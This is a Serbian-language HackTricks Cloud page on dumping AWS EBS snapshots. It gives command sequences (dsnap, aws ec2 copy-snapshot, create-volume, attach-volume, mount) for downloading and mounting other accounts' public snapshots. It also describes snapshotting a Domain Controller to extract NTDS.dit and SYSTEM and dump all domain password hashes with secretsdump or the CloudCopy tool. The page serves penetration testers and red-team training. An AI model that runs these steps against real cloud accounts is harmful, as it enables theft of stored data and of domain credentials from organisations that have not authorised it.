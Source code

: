 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Naučite i vežbajte AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Pogledajte [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Delite hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Provera snapshot-a lokalno
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Napomena** da `dsnap` neće dozvoliti preuzimanje javnih snapshot-a. Da biste to zaobišli, možete napraviti kopiju snapshot-a na svom ličnom nalogu i preuzeti je:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Za više informacija o ovoj tehnici pogledajte originalno istraživanje na [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Ovo možete uraditi sa Pacu koristeći modul [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

## Provera snapshot-a u AWS-u

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Montirajte ga u EC2 VM pod vašom kontrolom** (mora biti u istoj regiji kao kopija bekapa):

Korak 1: Kreirajte novi volumen željene veličine i tipa odlaskom na EC2 –> Volumes.

Da biste izvršili ovu akciju, pratite ove komande:

* Kreirajte EBS volumen za povezivanje sa EC2 instancom.
* Osigurajte da su EBS volumen i instanca u istoj zoni.

Korak 2: Opcija "attach volume" se bira desnim klikom na kreirani volumen.

Korak 3: Instanca iz instance text box-a se bira.

Da biste izvršili ovu akciju, koristite sledeću komandu:

* Povežite EBS volumen.

Korak 4: Prijavite se na EC2 instancu i listajte dostupne diskove koristeći komandu `lsblk`.

Korak 5: Proverite da li volumen ima podatke koristeći komandu `sudo file -s /dev/xvdf`.

Ako izlaz gornje komande pokazuje "/dev/xvdf: data", to znači da je volumen prazan.

Korak 6: Formatirajte volumen u ext4 fajlsistem koristeći komandu `sudo mkfs -t ext4 /dev/xvdf`. Alternativno, možete koristiti xfs format koristeći komandu `sudo mkfs -t xfs /dev/xvdf`. Imajte na umu da treba koristiti ili ext4 ili xfs.

Korak 7: Kreirajte direktorijum po vašem izboru za montiranje novog ext4 volumena. Na primer, možete koristiti ime "newvolume".

Da biste izvršili ovu akciju, koristite komandu `sudo mkdir /newvolume`.

Korak 8: Montirajte volumen u direktorijum "newvolume" koristeći komandu `sudo mount /dev/xvdf /newvolume/`.

Korak 9: Promenite direktorijum u "newvolume" i proverite prostor na disku da biste validirali montiranje volumena.

Da biste izvršili ovu akciju, koristite sledeće komande:

* Promenite direktorijum u `/newvolume`.
* Proverite prostor na disku koristeći komandu `df -h .`. Izlaz ove komande treba da pokaže slobodan prostor u direktorijumu "newvolume".

Možete to uraditi sa Pacu koristeći modul `ebs__explore_snapshots`.

## Provera snapshot-a u AWS (koristeći cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

Bilo koji AWS korisnik koji poseduje **`EC2:CreateSnapshot`** dozvolu može ukrasti hešove svih domen korisnika kreiranjem **snapshot-a Domain Controller-a**, montiranjem na instancu koju kontrolišu i **izvozom NTDS.dit i SYSTEM** registry hive fajla za korišćenje sa Impacket-ovim secretsdump projektom.

Možete koristiti ovaj alat za automatizaciju napada: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) ili možete koristiti jednu od prethodnih tehnika nakon kreiranja snapshot-a.

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Naučite i vežbajte AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Pogledajte [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Delite hacking trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
